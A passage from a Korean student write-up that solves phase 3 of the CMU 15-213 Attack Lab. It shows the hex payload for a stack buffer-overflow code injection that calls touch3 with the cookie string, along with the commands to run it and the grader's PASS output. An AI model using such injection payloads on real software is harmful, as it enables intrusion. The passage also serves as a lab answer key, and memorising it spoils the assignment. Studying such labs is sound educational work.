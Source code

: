 이제 위 코드를 가지고 입력할 값을 만들면 되는데, return address는 이전에 구했던 것을 그대로 사용하면 된다.
그리고 그 아래는 test의 스택에 cookie 문자열을 저장하는데 사용했다.

```
// phase3.txt
48 c7 c7 a8 dc 61 55 68
fa 18 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
35 39 62 39 39 37 66 61
00
```

여기서 고민이 됐던 것이 마지막에 00을 추가하는 것이었다.
만약 00을 추가하지 않는다면 문자열의 끝부분을 표시할 수 없다.
그렇다고 00을 추가하자니 test의 return address를 침범하는 문제가 있을 것 같았다.
그런데 00이 있든 없든 그대로 실행된다.
아마 이는 주소가 8bytes 중 3bytes만 사용하고 나머지가 0이기 때문에 가능한 것 같다.
그래서 00이 있든지 없든지 어차피 해당 부분이 00이라서 아무런 문제가 없다.

정답 파일을 만들었으니 아래 코드를 실행해서 답을 확인하면 된다.

`./hex2raw < phase3.txt > phase3-ans.txt`
`./ctarget < phase3-ans.txt`

```
Cookie: 0x59b997fa
Type string:Touch3!: You called touch3("59b997fa")
Valid solution for Phase3 with target ctarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:ctarget:3:48 C7 C7 A8 DC 61 55 68 FA 18 40 00 C3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55 00 00 00 00 35 39 62 39 39 37 66 61 00
```

## ptarget
